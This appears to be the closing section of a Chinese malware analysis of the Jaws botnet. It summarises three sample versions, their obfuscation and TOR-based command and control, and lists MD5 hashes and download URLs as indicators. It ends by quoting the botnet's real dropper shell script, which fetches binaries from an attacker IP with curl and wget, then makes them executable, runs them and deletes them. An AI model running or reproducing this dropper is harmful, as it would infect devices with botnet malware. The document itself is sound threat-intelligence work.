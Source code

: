 ## 小结：

Jaws样本分为三个版本迭代，以上分析是针对第三版本的分析。和前两个版本，略有不同。第一版本，代码采用了大量混淆，有代码级别的，和字符串级别的，内置了几十种的加密算法，使得文件代码量达到了2M之多，其中有效的代码只有180K，不排除是为了降低代码相似性的检验。其中的部分功能不完善，比如内存查杀，第一版本时只关闭特定的一个进程，不会对内存进行扫描。在TOR代理节点数量上也有不同，第一版只有20个。第二版本进行了轻量化处理，砍去的冗余代码，使得样本代码体积小了很多。功能方面，第二版也较为完善。除了前文提到了远程主机下载地址，在蜜罐的系统中也发现了其他的下载版本，并且主机地址属于一个网段，说明僵尸网络团伙进行的是大规模的传播。在以上分析的过程中，笔者自己的IP地址曾被远程下载主机ban掉，在Jaws更新版本期间，有多次与远程主机失去联系。说明僵尸网络团伙有一定的警惕性，有一定的防范措施。命令控制采用TOR C2 网络进行分发，加大了追踪的难度。另外，在云端配置相关样本下载路径，这一点策略较为灵活，加大安全研究的难度，更容易清理攻击痕迹。



## 相关IOC：

### Sample MD5：

第一版：75DDB64F32CF8F429707666D1C32462F

        8EDF141C25EBE39278E006DC9E8CF293

第二版：3DF01B9922FAAF18521879148C5E4825

        55E28A786501DB5A39574D866516FAF3

        A4DDCCCC7A10FA98D540D0819E8D1F32

        E348C6F7089E6D40CA68AEBA9731B54B

        9E47CD0D7C36684E79AE59E1AB4A4C40

第三版：CD3B462B35D86FCC26E4C1F50E421ADD  (x86)

        35A7D219B84FDF81E12893597F91EB8B  (arm)

        1305C0DB890A9C4D3AD6ED650B2B0E02  (arm32)

        E9B47F64E743542A5B57591697352F64  (arm32)

        9BF6BE9909E7F97B000877721B5E7C9A  (arm32)

        2F9344FD7C6336D836ADEE90CC59A700  (mips32)

        1EDFB6128DA7088A2E3347977C40AD3D  (x86)

### Down Url

```
http://45.145.185.83/jaws.sh

http://45.144.225.96/jaws.sh    

2021-2-23

#!/bin/sh

cd /tmp || cd /home/$USER || cd /var/run || cd /mnt || cd /root || cd / ;

#cd $(find / -writable -readable -executable | head -n 1)

curl http://45.145.185.83/S1eJ3/lPxdChtp3zarm7 -O; busybox curl http://45.145.185.83/S1eJ3/lPxdChtp3zarm7 -O; wget http://45.145.185.83/S1eJ3/lPxdChtp3zarm7 -O AJhkewbfwefWEFarm7; busybox wget http://45.145.185.83/S1eJ3/lPxdChtp3zarm -O AJhkewbfwefWEFarm7; chmod 777 AJhkewbfwefWEFarm7; ./AJhkewbfwefWEFarm7; rm -rf AJhkewbfwefWEFarm7

curl http://45.145.185.83/S1eJ3/lPxdChtp3zarm -O; busybox curl http://45.145.185.83/S1eJ3/lPxdChtp3zarm -O; wget http://45.145.185.83/S1eJ3/lPxdChtp3zarm -O AJhkewbfwefWEFarm5; busybox wget http://45.145.185.83/S1eJ3/lPxdChtp3zarm -O AJhkewbfwefWEFarm5; chmod 777 AJhkewbfwefWEFarm5; ./AJhkewbfwefWEFarm5; rm -rf AJhkewbfwefWEFarm5

```